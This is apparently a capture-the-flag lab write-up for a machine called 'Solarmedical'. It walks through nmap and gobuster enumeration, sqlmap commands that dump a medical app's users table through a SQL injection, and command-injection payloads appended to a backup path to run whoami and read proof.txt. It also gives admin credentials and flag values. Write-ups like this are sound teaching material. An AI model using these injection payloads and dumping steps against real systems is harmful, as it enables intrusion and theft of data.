# **Solarmedical**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -p- -sV -sS -Pn -A 192.168.240.127
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.240.127 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
 

## Find the SQL Injection vulnerability
- Go to /testResults page and add a single quote, then you can observe sql error which gives a hint that sql injection exists here.

 


 



- Now save the request from burp to run sqlmap on it.

```
sqlmap -r testResults_post.txt --batch
```


Here we found the DB is Microsoft SQL Server and the injectable parameter is patientName.

- Now we can try to dump the database names.
```
sqlmap -r testResults_post.txt -p patientName --dbms= "mssql" --dbs --batch --flush-session
```



But as you see sqlmap did not able to extract the database names. Also as suggested by sqlmap we tried using --no-cast as well as --hex but still no luck.

- Now we can modify the value of injectable paramter i.e, patientName=* in the request and save it. Now again try sqlmap.




```
sqlmap -r testResults_post.txt --dbms= "mssql" --dbs --batch 
```




NOTE:
 sqlmap can discover the sqli, but as far as I'm aware without custom injection marker you will not be able to dump more than the database names
This is because the dump only works if the sqli is like patientName=*foo and not like patientName=foo*

But the trick in here is that you need to add just * in the patient name not test or anything else 
so save the file and put * in the patient field.

- As DB name is now found, try to see the tables and dump data.

```
sqlmap -r testResults_post.txt --dbms= "mssql" --tables -D MedicalDB --batch 
```




- As table name is now found, try to see the records in the users table.

```
sqlmap -r testResults_post.txt --dbms= "mssql" -D MedicalDB -T users --batch --dump
```



- Try to login with credentials - Username:admin and Password:TLyjybuktHmL3J9qadfV. After login with admin credentials, now you can find the local.txt flag.



### local.txt flag:  1c8cedbb15bad38ab32222064330a63d

---

## **PROOF.TXT**
- Go to backup folder and try the simple copy feature.
```
C:\backup
```


- Now to test for command injection first try a simple command like whoami using this payload - 
`C:\backup"&whoami`. Now you can see the whoami command got executed.

```
C:\backup"&whoami
```



- Now try to see the files in C directory and there you can find the proof.txt file.

```
C:\backup"&dir C:\
```



- Now read the proof.txt file.
```
C:\backup"&type C:\proof.txt
```



### proof.txt flag:  bf4ee63c10cce2cb3c32ae6ec08f7f26


